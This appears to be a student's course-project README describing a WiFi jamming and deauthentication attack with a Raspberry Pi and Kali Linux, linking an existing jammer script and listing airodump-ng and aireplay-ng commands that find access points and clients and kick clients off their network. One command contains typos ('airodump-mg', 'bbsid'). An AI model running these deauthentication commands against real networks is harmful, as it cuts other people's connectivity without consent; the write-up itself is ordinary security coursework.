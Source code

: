 # Final-Project-WiFi-Jammer-Deauth-Attack

For the final project, I wanted to include all devices acquired throughout the course and put them to use (raspberry pi, kali linux, wireless card with packet injection capabilities).

I will be presenting a WiFi jamming python script which continuously identifies all access points and their respective clients on channels 1-11, sends deauthentication packets and kicks them off the network. I will also show how to manually deauthenticate a client from an AP using terminal commands in Kali Linux. 

Sources: https://github.com/DanMcInerney/wifijammer/blob/master/wifijammer.py

Commands I used to monitor networks in my range are:

1. "airodump-ng wlan0mon(your monitoring interface)" - lists the MAC address of the router, SSID, and channel, as well as stations (clients on respective networks).

2. "airodump-mg --channel 2(channel of network you would like to monitor) --bbsid E0:00:00:00:00:00(MAC address of router) wlan0mon(your monitoring interface)" - This filters network traffic, so you can view the MAC address of clients you'd specifically like to kick off.

3. "aireplay-ng --deauth(Type of packet) 100(Amount of packets) -a E0:00:00:00:00:00(AP) -c E0:00:00:00:00:00(client) wlan0mon" - aireplay-ng is a command used to inject packets. This command send is sending deauth packets from the router your pretending to be, to its client, essentially kicking off the client.
